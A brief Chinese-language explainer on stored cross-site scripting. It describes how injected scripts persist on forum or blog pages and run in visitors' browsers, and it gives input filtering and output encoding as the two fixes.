​		存储型 XSS 的攻击常见于论坛、博客或留言等需要提交文本的页面，攻击者将攻击脚本和文本一起注入。当文本被服务器存储下来时，恶意脚本也会被永久存放与服务器的数据库或文件中。当其他用户访问这个含有恶意脚本的页面时，恶意脚本会在用户的浏览器中执行。XSS 漏洞的修复方式有以下 2 种：

1. **过滤输入的字符**，例如 “ ' ”，“ " ”，“<”，“>” 等非法字符；
2. 对输出到页面的数据进行**编码**。
